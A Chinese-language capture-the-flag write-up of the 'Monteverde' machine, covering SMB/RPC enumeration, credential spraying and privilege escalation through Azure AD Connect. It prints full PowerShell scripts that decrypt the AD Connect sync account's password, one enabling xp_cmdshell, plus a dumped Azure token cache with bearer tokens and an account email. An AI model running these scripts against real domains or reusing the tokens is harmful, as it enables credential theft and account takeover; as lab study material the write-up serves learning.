# 域渗透实战之Monteverde - 先知社区

域渗透实战之Monteverde

- - -

# 信息收集

# 端口扫描

使用nmap去探测端口，发现开放了53，88，139等多个端口。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113181928-20d3f8a6-820e-1.png)

接着去识别其端口对应的版本。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113181937-264066e4-820e-1.png)

## SMB未授权

使用smbclient 去尝试未授权访问。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113181946-2b6d0abe-820e-1.png)

## RPC未授权

无需任何凭证获得 RPC 会话：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113181955-30bafa44-820e-1.png)

## 凭证暴力破解

使用crackmapexec去爆破用户名。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182010-39b88b98-820e-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182018-3e549be2-820e-1.png)

也可以使用ladpsearch来进行获取用户凭证。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182026-43301218-820e-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182034-480d0494-820e-1.png)

# 漏洞利用

## SMBMAP登录

在获取到用户的用户名和登录密码之后，使用smbmap进行读取文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182042-4cb5b3ce-820e-1.png)

发现在users￥目录下存在一个xml文件。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182048-509ceb74-820e-1.png)

## 获取登录密码

下载它之后，进行查看，发现文件里面包含密码。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182056-553932b4-820e-1.png)

使用crackmapexec进行测试，发现其可以进行远程登录。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182103-59400ed2-820e-1.png)

## 获取webshell

使用winrm进行登录，成功获取webshell。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182110-5dbb5f16-820e-1.png)

然后进行翻找文件，发现user.txt

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182119-63222e8a-820e-1.png)

## 获取user.txt

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182119-63222e8a-820e-1.png)

# mhope –> 管理员

## 内网信息收集

使用net user收集mhope的用户信息。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182149-74fee4c2-820e-1.png)

发现存在Azure文件目录。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182158-7a5eefe8-820e-1.png)

然后去下载这些文件，去获取有用信息。

```plain
‡https://login.windows.net/372efea9-7bc4-4b76-8839-984b45edfb98/:::https://graph.windows.net/:::1950a258-227b-4e31-a9cf-717495945fc2:::0©{"RefreshToken":"AQABAAAAAACQN9QBRU3jT6bcBQLZNUj7aeQ8R2hfsMQE-DIEEp8rOWPiom2rNwROtUThYh6cCyfB9McL8XdHR94VQSY3KAN-SWuINLqSnI_Lfj-vM1nsCu_Kh51XTceMlWr9mZsNYiX5oCnIBT50bCWIlyeZxmpR7L4sfRp_2iESLU06U0QiHBP7L_HR75crAfpQdJ2oJEn9MWYoxFKIHxXRgAp8fwyKa5yVo5usuanLFGofYzvU6YUGwSFwHskyy_iHdmimggyI7pxp2-C0pSlRp6yZp-4JYyvoeTjxqtXkpMR7VnmJ5qIqJvecNcutXPu-SJDWRvvmW_V2se4V1u1ecuJDe02oAmouL7yp8HrcOBNgn9Jg_f27tHJSbONR-rFWFmeYr-Zi84EJbubYBb7DdzZaoCArbYrgglrAOmz85N9-DMbIJdT7ffteT0hu2rHI6OVDvgckNv-XVhwMF55XtjxxxhpR1EljIq07qCPCqSVoNnoyhDawgyYiNRh0EVr1kf6GEA9bAYNMHgf3VN5WApXbb0VzoxozBKNkNiMybB-uA1d9DLs1eOimxrhoKjsK6cyKTsslGe8qgjcLS0pcRDVvNub1_fKQAXqVB4WZXMo_TDSALh-ctiwVVFNRqTeGsdzcfJe7j3WwzuIiuWfIYydSQKaeRo87qtg6v4dHy4hVBOwm-NPah29sOrSNsyuUydhkNK2QXCwn_hV5-7OCwfSJHG9Dja4r8B_iS0-VvcwzRUT_-2t1eNN8vgRgTlgAdotG330U9SshDgVjg27VHIw-e-57ID7FTEjnVfc4loRNjoNJlSAA","ResourceInResponse":"https:\/\/graph.windows.net\/","Result":{"AccessToken":"eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsIng1dCI6InBpVmxsb1FEU01LeGgxbTJ5Z3FHU1ZkZ0ZwQSIsImtpZCI6InBpVmxsb1FEU01LeGgxbTJ5Z3FHU1ZkZ0ZwQSJ9.eyJhdWQiOiJodHRwczovL2dyYXBoLndpbmRvd3MubmV0LyIsImlzcyI6Imh0dHBzOi8vc3RzLndpbmRvd3MubmV0LzM3MmVmZWE5LTdiYzQtNGI3Ni04ODM5LTk4NGI0NWVkZmI5OC8iLCJpYXQiOjE1NzgwNTgyNzYsIm5iZiI6MTU3ODA1ODI3NiwiZXhwIjoxNTc4MDYyMTc2LCJhY3IiOiIxIiwiYWlvIjoiNDJWZ1lBZ3NZc3BPYkdtYjU4V3ZsK0d3dzhiYXA4bnhoOWlSOEpVQit4OWQ5L0g2MEFBQSIsImFtciI6WyJwd2QiXSwiYXBwaWQiOiIxOTUwYTI1OC0yMjdiLTRlMzEtYTljZi03MTc0OTU5NDVmYzIiLCJhcHBpZGFjciI6IjAiLCJmYW1pbHlfbmFtZSI6IkNsYXJrIiwiZ2l2ZW5fbmFtZSI6IkpvaG4iLCJpcGFkZHIiOiI0Ni40LjIyMy4xNzMiLCJuYW1lIjoiSm9obiIsIm9pZCI6ImU0ZjU2YmMxLTAyMWYtNDc5NS1iY2EyLWJlZGZjODE5ZTkwYSIsInB1aWQiOiIxMDAzMjAwMDkzOTYzMDJCIiwic2NwIjoiNjJlOTAzOTQtNjlmNS00MjM3LTkxOTAtMDEyMTc3MTQ1ZTEwIiwic3ViIjoiVWFTMGI5ZHJsMmlmYzlvSXZjcUFlbzRoY3c1YWpyV3g3bU5DMklrMkRsayIsInRlbmFudF9yZWdpb25fc2NvcGUiOiJFVSIsInRpZCI6IjM3MmVmZWE5LTdiYzQtNGI3Ni04ODM5LTk4NGI0NWVkZmI5OCIsInVuaXF1ZV9uYW1lIjoiam9obkBhNjc2MzIzNTQ3NjNvdXRsb29rLm9ubWljcm9zb2Z0LmNvbSIsInVwbiI6ImpvaG5AYTY3NjMyMzU0NzYzb3V0bG9vay5vbm1pY3Jvc29mdC5jb20iLCJ1dGkiOiJsM2xBR3NBRVYwcVdQelJ1Vkh4U0FBIiwidmVyIjoiMS4wIn0.czHUwYjleGp2C1c_BMZIZkEHz-12R86qmngaiyTeTW_bM659hqetbQylvf_qCJDuxD8e28H6Oqw5Hn1Hwij7yHK-kOjUeUlXkGyzFhQbDf3CQLvFsZioUiHHiighrVjZfu6Rolv8fxoG3Q8cXS-Ms_Wm6RI-zcaK9Eyu841D51jzvYI60rC9HTummktfVURP2xf3DnskqjJF1dDlSi62gPGXGk0xZordZFiGoYAtv8qiMAiSCioN_sw_xWRJ250nvw90biQ1NkPRpSGf8jNpbYktB0Ti8-sNblaGRJBQqmHxZ-0PkSq31op2CzHN7wwYCJOEoJpOtS-x4j1DGZ19hA","AccessTokenType":"Bearer","ExpiresOn":{"DateTime":"\/Date(1578062173584)\/","OffsetMinutes":0},"ExtendedExpiresOn":{"DateTime":"\/Date(1578062173584)\/","OffsetMinutes":0},"ExtendedLifeTimeToken":false,"IdToken":"eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdWQiOiIxOTUwYTI1OC0yMjdiLTRlMzEtYTljZi03MTc0OTU5NDVmYzIiLCJpc3MiOiJodHRwczovL3N0cy53aW5kb3dzLm5ldC8zNzJlZmVhOS03YmM0LTRiNzYtODgzOS05ODRiNDVlZGZiOTgvIiwiaWF0IjoxNTc4MDU4Mjc2LCJuYmYiOjE1NzgwNTgyNzYsImV4cCI6MTU3ODA2MjE3NiwiYW1yIjpbInB3ZCJdLCJmYW1pbHlfbmFtZSI6IkNsYXJrIiwiZ2l2ZW5fbmFtZSI6IkpvaG4iLCJpcGFkZHIiOiI0Ni40LjIyMy4xNzMiLCJuYW1lIjoiSm9obiIsIm9pZCI6ImU0ZjU2YmMxLTAyMWYtNDc5NS1iY2EyLWJlZGZjODE5ZTkwYSIsInN1YiI6Inl2V2x2eEFSbE84V0pKN0dUUmFYb0p0MHAwelBiUkRIX0EtcC1FTEtFdDgiLCJ0aWQiOiIzNzJlZmVhOS03YmM0LTRiNzYtODgzOS05ODRiNDVlZGZiOTgiLCJ1bmlxdWVfbmFtZSI6ImpvaG5AYTY3NjMyMzU0NzYzb3V0bG9vay5vbm1pY3Jvc29mdC5jb20iLCJ1cG4iOiJqb2huQGE2NzYzMjM1NDc2M291dGxvb2sub25taWNyb3NvZnQuY29tIiwidmVyIjoiMS4wIn0.","TenantId":"372efea9-7bc4-4b76-8839-984b45edfb98","UserInfo":{"DisplayableId":"john@a67632354763outlook.onmicrosoft.com","FamilyName":"Clark","GivenName":"John","IdentityProvider":"https:\/\/sts.windows.net\/372efea9-7bc4-4b76-8839-984b45edfb98\/","PasswordChangeUrl":null,"PasswordExpiresOn":null,"UniqueId":"e4f56bc1-021f-4795-bca2-bedfc819e90a"}},"UserAssertionHash":null}‘https://login.windows.net/372efea9-7bc4-4b76-8839-984b45edfb98/:::https://management.core.windows.net/:::1950a258-227b-4e31-a9cf-717495945fc2:::0‡{"RefreshToken":"AQABAAAAAACQN9QBRU3jT6bcBQLZNUj7aeQ8R2hfsMQE-DIEEp8rOWPiom2rNwROtUThYh6cCyfB9McL8XdHR94VQSY3KAN-SWuINLqSnI_Lfj-vM1nsCu_Kh51XTceMlWr9mZsNYiX5oCnIBT50bCWIlyeZxmpR7L4sfRp_2iESLU06U0QiHBP7L_HR75crAfpQdJ2oJEn9MWYoxFKIHxXRgAp8fwyKa5yVo5usuanLFGofYzvU6YUGwSFwHskyy_iHdmimggyI7pxp2-C0pSlRp6yZp-4JYyvoeTjxqtXkpMR7VnmJ5qIqJvecNcutXPu-SJDWRvvmW_V2se4V1u1ecuJDe02oAmouL7yp8HrcOBNgn9Jg_f27tHJSbONR-rFWFmeYr-Zi84EJbubYBb7DdzZaoCArbYrgglrAOmz85N9-DMbIJdT7ffteT0hu2rHI6OVDvgckNv-XVhwMF55XtjxxxhpR1EljIq07qCPCqSVoNnoyhDawgyYiNRh0EVr1kf6GEA9bAYNMHgf3VN5WApXbb0VzoxozBKNkNiMybB-uA1d9DLs1eOimxrhoKjsK6cyKTsslGe8qgjcLS0pcRDVvNub1_fKQAXqVB4WZXMo_TDSALh-ctiwVVFNRqTeGsdzcfJe7j3WwzuIiuWfIYydSQKaeRo87qtg6v4dHy4hVBOwm-NPah29sOrSNsyuUydhkNK2QXCwn_hV5-7OCwfSJHG9Dja4r8B_iS0-VvcwzRUT_-2t1eNN8vgRgTlgAdotG330U9SshDgVjg27VHIw-e-57ID7FTEjnVfc4loRNjoNJlSAA","ResourceInResponse":"https:\/\/management.core.windows.net\/","Result":{"AccessToken":"eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsIng1dCI6InBpVmxsb1FEU01LeGgxbTJ5Z3FHU1ZkZ0ZwQSIsImtpZCI6InBpVmxsb1FEU01LeGgxbTJ5Z3FHU1ZkZ0ZwQSJ9.eyJhdWQiOiJodHRwczovL21hbmFnZW1lbnQuY29yZS53aW5kb3dzLm5ldC8iLCJpc3MiOiJodHRwczovL3N0cy53aW5kb3dzLm5ldC8zNzJlZmVhOS03YmM0LTRiNzYtODgzOS05ODRiNDVlZGZiOTgvIiwiaWF0IjoxNTc4MDU4MjU3LCJuYmYiOjE1NzgwNTgyNTcsImV4cCI6MTU3ODA2MjE1NywiYWNyIjoiMSIsImFpbyI6IjQyVmdZSGc3ajlGN3oxK24renhKZktXQmpxcWRYMzFEVDNLc2ovL2FzT1d5VFcycTNRSUEiLCJhbXIiOlsicHdkIl0sImFwcGlkIjoiMTk1MGEyNTgtMjI3Yi00ZTMxLWE5Y2YtNzE3NDk1OTQ1ZmMyIiwiYXBwaWRhY3IiOiIwIiwiZmFtaWx5X25hbWUiOiJDbGFyayIsImdpdmVuX25hbWUiOiJKb2huIiwiZ3JvdXBzIjpbImM3OTRlNzE3LTIxZWYtNDljZS1hZjAwLTljMDEwZGM0MWE3NiJdLCJpcGFkZHIiOiI0Ni40LjIyMy4xNzMiLCJuYW1lIjoiSm9obiIsIm9pZCI6ImU0ZjU2YmMxLTAyMWYtNDc5NS1iY2EyLWJlZGZjODE5ZTkwYSIsInB1aWQiOiIxMDAzMjAwMDkzOTYzMDJCIiwic2NwIjoidXNlcl9pbXBlcnNvbmF0aW9uIiwic3ViIjoid1U4Y1RtUm5tTzM2Z1E5MEx4VUNiN0tGMXZ3NlVUVlVKa1VPNThJd3NVTSIsInRpZCI6IjM3MmVmZWE5LTdiYzQtNGI3Ni04ODM5LTk4NGI0NWVkZmI5OCIsInVuaXF1ZV9uYW1lIjoiam9obkBhNjc2MzIzNTQ3NjNvdXRsb29rLm9ubWljcm9zb2Z0LmNvbSIsInVwbiI6ImpvaG5AYTY3NjMyMzU0NzYzb3V0bG9vay5vbm1pY3Jvc29mdC5jb20iLCJ1dGkiOiI4MjNlVzFyWmZFQ1hEV2lHaHQ1UkFBIiwidmVyIjoiMS4wIiwid2lkcyI6WyI2MmU5MDM5NC02OWY1LTQyMzctOTE5MC0wMTIxNzcxNDVlMTAiXX0.ja68GQ9Suvm8-6a732DZy7Z7Q62XnmL0hsVnMKP3L-u7KB9W8nafebCzEmwhAoAzEqVOKfApM8VjOALGJcgz60sYbN0JtK4RaHCiF0yQogGTvgFe3FMB-26wCxGo-d_hTxiPiFUGfTuqSMzprXfBEKLneXNKcLlkav2pPNAhLD_HoshDaznMPlt2W00rq6hJII032WoZQMPYMLJmnub4pi2N3ScroWO3zDQ16wpoFCOSYbuqoLKSm-FLN8yEhTJDf2umcOaLVE7jtnHba_rEPyC_sBtIedl1nSR8kr7A9B8dBvn0pC3M7gYIVpVwIana6pni6I8jaMwH_-3aJmCLhw","AccessTokenType":"Bearer","ExpiresOn":{"DateTime":"\/Date(1578062154521)\/","OffsetMinutes":0},"ExtendedExpiresOn":{"DateTime":"\/Date(1578062154521)\/","OffsetMinutes":0},"ExtendedLifeTimeToken":false,"IdToken":"eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdWQiOiIxOTUwYTI1OC0yMjdiLTRlMzEtYTljZi03MTc0OTU5NDVmYzIiLCJpc3MiOiJodHRwczovL3N0cy53aW5kb3dzLm5ldC8zNzJlZmVhOS03YmM0LTRiNzYtODgzOS05ODRiNDVlZGZiOTgvIiwiaWF0IjoxNTc4MDU4MjU3LCJuYmYiOjE1NzgwNTgyNTcsImV4cCI6MTU3ODA2MjE1NywiYW1yIjpbInB3ZCJdLCJmYW1pbHlfbmFtZSI6IkNsYXJrIiwiZ2l2ZW5fbmFtZSI6IkpvaG4iLCJpcGFkZHIiOiI0Ni40LjIyMy4xNzMiLCJuYW1lIjoiSm9obiIsIm9pZCI6ImU0ZjU2YmMxLTAyMWYtNDc5NS1iY2EyLWJlZGZjODE5ZTkwYSIsInN1YiI6Inl2V2x2eEFSbE84V0pKN0dUUmFYb0p0MHAwelBiUkRIX0EtcC1FTEtFdDgiLCJ0aWQiOiIzNzJlZmVhOS03YmM0LTRiNzYtODgzOS05ODRiNDVlZGZiOTgiLCJ1bmlxdWVfbmFtZSI6ImpvaG5AYTY3NjMyMzU0NzYzb3V0bG9vay5vbm1pY3Jvc29mdC5jb20iLCJ1cG4iOiJqb2huQGE2NzYzMjM1NDc2M291dGxvb2sub25taWNyb3NvZnQuY29tIiwidmVyIjoiMS4wIn0.","TenantId":"372efea9-7bc4-4b76-8839-984b45edfb98","UserInfo":{"DisplayableId":"john@a67632354763outlook.onmicrosoft.com","FamilyName":"Clark","GivenName":"John","IdentityProvider":"https:\/\/sts.windows.net\/372efea9-7bc4-4b76-8839-984b45edfb98\/","PasswordChangeUrl":null,"PasswordExpiresOn":null,"UniqueId":"e4f56bc1-021f-4795-bca2-bedfc819e90a"}},"UserAssertionHash":null}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182230-8d0bab40-820e-1.png)

## 利用研究 - Azure 管理员组

这是一组逻辑默认权限，但问题在于 TokenCache.dat 文件是一个包含当前会话的 AccessKey 的明文 JSON 文件。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182241-93997398-820e-1.png)

## 查看json文件。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182248-97c20f98-820e-1.png)

# 权限提升

开头的客户端代码必须编辑为：

```plain
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=LocalHost;Database=ADSync;Trusted_Connection=True;"
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}}
Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```

该漏洞利用分为三个部分：  
● 从数据库获取信息以从 KeyManager 检索加密密钥。  
● 从数据库获取配置和加密密码。  
● 获取密钥并解密密码。  
获取关键信息  
此代码只是对数据库进行简单的查询并将结果存储在适当的变量中：

```plain
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()
```

## 上传攻击脚本

从本地进行上传脚本，然后远程下载之后，并执行，获取到管理员用户名和密码。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182321-ab64bc3a-820e-1.png)

## 获取root.txt

本地开始监听，然后继续使用winrm进行远程登录。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182330-b0b04948-820e-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182336-b4b3ac06-820e-1.png)

## payload分析

获取配置信息  
下一部分代码进行第二次查询以获取配置信息：

```plain
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182420-ce76b8ea-820e-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182427-d2a324f8-820e-1.png)

加密的密码位于底部，配置位于顶部。

## 解密

脚本的第三部分解密。首先，它经过一系列的循环从 KeyManager 中获取解密对象：

```plain
add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
```

现在它解密：

```plain
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
```

剩下的只是格式化输出和打印：

```plain
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}}
Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
https://gist.github.com/xpn/f12b145dba16c2eebdd1c6829267b90c
Write-Host "AD Connect Sync Credential Extract v2 (@_xpn_)"
Write-Host "`t[ Updated to support new cryptokey storage method ]`n"

$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync"

try {
    $client.Open()
} catch {
    Write-Host "[!] Could not connect to localdb..."
    return
}

Write-Host "[*] Querying ADSync localdb (mms_server_configuration)"

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
if ($reader.Read() -ne $true) {
    Write-Host "[!] Error querying mms_server_configuration"
    return
}

$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

Write-Host "[*] Querying ADSync localdb (mms_management_agent)"

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
if ($reader.Read() -ne $true) {
    Write-Host "[!] Error querying mms_management_agent"
    return
}

$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

Write-Host "[*] Using xp_cmdshell to run some Powershell as the service user"

$cmd = $client.CreateCommand()
$cmd.CommandText = "EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell 'powershell.exe -c `"add-type -path ''C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'';`$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager;`$km.LoadKeySet([guid]''$entropy'', [guid]''$instance_id'', $key_id);`$key = `$null;`$km.GetActiveCredentialKey([ref]`$key);`$key2 = `$null;`$km.GetKey(1, [ref]`$key2);`$decrypted = `$null;`$key2.DecryptBase64ToString(''$crypted'', [ref]`$decrypted);Write-Host `$decrypted`"'"
$reader = $cmd.ExecuteReader()

$decrypted = [string]::Empty

while ($reader.Read() -eq $true -and $reader.IsDBNull(0) -eq $false) {
    $decrypted += $reader.GetString(0)
}

if ($decrypted -eq [string]::Empty) {
    Write-Host "[!] Error using xp_cmdshell to launch our decryption powershell"
    return
}

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerText}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerText}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host "[*] Credentials incoming...`n"

Write-Host "Domain: $($domain.Domain)"
Write-Host "Username: $($username.Username)"
Write-Host "Password: $($password.Password)"
```

第三部分是新的。它不是在 PowerShell 中获取密钥并解密，而是传递这些命令然后进行提权，但是有个前提：xp\_cmdshell开启。

# 总结：

## Azure AD Connect 数据库漏洞 (Priv Esc)

### 简介

Azure AD Connect 服务本质上负责同步本地 AD 域和基于 Azure 的域之间的事物。但是，要做到这一点，它需要本地域的特权凭据，以便它可以执行各种操作，例如同步密码等。可以在安装了 Azure AD Connect 的服务器上运行一些简单的 .NET 或 Powershell 代码，并立即获取其设置使用的任何 AD 帐户的纯文本凭据！  
原文链接：[https://blog.xpnsec.com/azuread-connect-for-redteam/](https://blog.xpnsec.com/azuread-connect-for-redteam/)

### 利用

在开始使用 Azure AD 之前。将使用：

1.  运行 Windows Server 2016 的虚拟机
2.  在 Azure AD 中分配了全局管理员角色的 Azure 帐户
3.  Azure AD 连接  
    首先，您需要在 Azure AD 中设置一个具有全局管理员权限的帐户，这可以通过管理门户轻松完成：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182532-f9e70246-820e-1.png)

创建帐户后，我们需要在有权访问域的服务器上安装 Azure AD Connect 应用程序。Azure AD Connect 是安装在 Active Directory 环境中的服务。它负责与 Azure AD 同步和通信，这也是本文的重点内容。  
为了加快实验室中的安装过程，我们将在 Azure AD Connect 安装过程中使用“快速设置”选项，该选项默认为密码哈希同步：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182541-ff40c786-820e-1.png)

Azure AD Connect 安装完成后，您应该收到如下通知：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182548-0318fc3e-820f-1.png)

接下来，让我们开始深入研究一些内部结构，首先从 PHS 开始。

### 分析

为了开始对 PHS 的分析，我们应该看看负责处理密码哈希同步的程序集之一Microsoft.Online.PasswordSynchronization.dll。可以在 Azure AD Sync 的默认安装路径中找到此程序集C:\\Program Files\\Microsoft Azure AD Sync\\Bin。  
搜索公开的类和方法，有一些有趣的参考：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182603-0c230e46-820f-1.png)

您可能知道，DRS（目录复制服务）为许多 API 添加了前缀，这些 API 有助于在域控制器之间复制对象。DRS 还被我们最喜欢的另一个工具用来恢复密码哈希值…… Mimikatz。  
因此，我们在这里实际看到的是 Azure AD Connect 如何从 Active Directory 检索数据并将其转发到 Azure AD。那么这对我们意味着什么呢？众所周知，要通过 Mimikatz 执行 DCSync，帐户必须拥有 AD 中的“复制目录更改”权限。回顾一下 Active Directory，我们可以看到在安装 Azure AD Connect 期间创建了一个新用户，用户名为MSOL\_\[HEX\]。快速检查其权限后，我们看到了我们对负责复制 AD 的帐户的期望：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182612-11b61056-820f-1.png)

那么我们如何才能获得该帐户的访问权限呢？我们可能考虑的第一件事就是简单地从 Azure AD Connect 服务中获取令牌或使用 Cobalt Strike 注入到服务中......微软已经想到了这一点，负责 DRS（Microsoft Azure AD Sync）的服务实际上运行为NT SERVICE\\ADSync，因此我们需要付出更多努力才能获得这些 DCSync 权限。  
现在，默认情况下，部署连接器时，会使用 SQL Server 的 LOCALDB 在主机上创建一个新数据库。要查看正在运行的实例的信息，我们可以使用已安装的SqlLocalDb.exe工具：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182619-15804314-820f-1.png)

数据库通过存储服务的元数据和配置数据来支持 Azure AD 同步服务。搜索我们可以看到一个名为的表mms\_management\_agent，其中包含许多字段，其中包括private\_configuration\_xml. 该字段中的 XML 包含有关MSOL用户的详细信息：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182626-1a14d408-820f-1.png)

然而，正如您将看到的，返回的 XML 中省略了密码。加密的密码实际上存储在另一个字段 中encrypted\_configuration。C:\\Program Files\\Microsoft Azure AD Sync\\Binn\\mcrypt.dll通过查看连接器服务中此加密数据的处理，我们看到了对负责密钥管理和此数据解密的程序集的许多引用：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231113182634-1e81959e-820f-1.png)

为了解密该encrypted\_configuration值，我创建了一个快速 POC，它将从 LocalDB 实例检索密钥材料，然后将其传递给程序mcrypt.dll集进行解密：

```plain
Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"

$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

